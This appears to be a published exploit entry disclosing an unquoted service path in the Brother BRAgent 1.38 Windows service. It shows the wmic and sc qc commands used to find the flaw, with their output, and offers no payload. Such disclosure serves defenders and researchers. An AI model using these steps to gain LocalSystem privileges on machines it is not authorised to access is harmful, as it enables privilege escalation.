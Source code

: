     # Exploit Title: Brother BRAgent 1.38 - 'WBA_Agent_Client' Unquoted Service Path
    # Discovery by: Brian Rodriguez
    # Date: 14-06-2021
    # Vendor Homepage: https://brother.com
    # Software Link: https://support.brother.com/g/b/downloadhowto.aspx?c=us&lang=en&prod=ads1000w_us&os=10013&dlid=dlf002778_000&flang=4&type3=46
    # Tested Version: 1.38
    # Vulnerability Type: Unquoted Service Path
    # Tested on: Windows 10 Enterprise 64 bits

    # Step to discover Unquoted Service Path:

    C:\>wmic service get name,displayname,pathname,startmode |findstr /i "auto"
    |findstr /i /v "c:\windows\\" |findstr /i /v """
    Brother BRAgent    WBA_Agent_Client   C:\Program Files
    (x86)\Brother\BRAgent\BRAgtSrv.exe   Auto

    C:\>sc qc WBA_Agent_Client
    [SC] QueryServiceConfig CORRECTO

    NOMBRE_SERVICIO: WBA_Agent_Client
            TIPO               : 10  WIN32_OWN_PROCESS
            TIPO_INICIO        : 2   AUTO_START
            CONTROL_ERROR      : 1   NORMAL
            NOMBRE_RUTA_BINARIO: C:\Program Files
    (x86)\Brother\BRAgent\BRAgtSrv.exe
            GRUPO_ORDEN_CARGA  :
            ETIQUETA           : 0
            NOMBRE_MOSTRAR     : Brother BRAgent
            DEPENDENCIAS       :
            NOMBRE_INICIO_SERVICIO: LocalSystem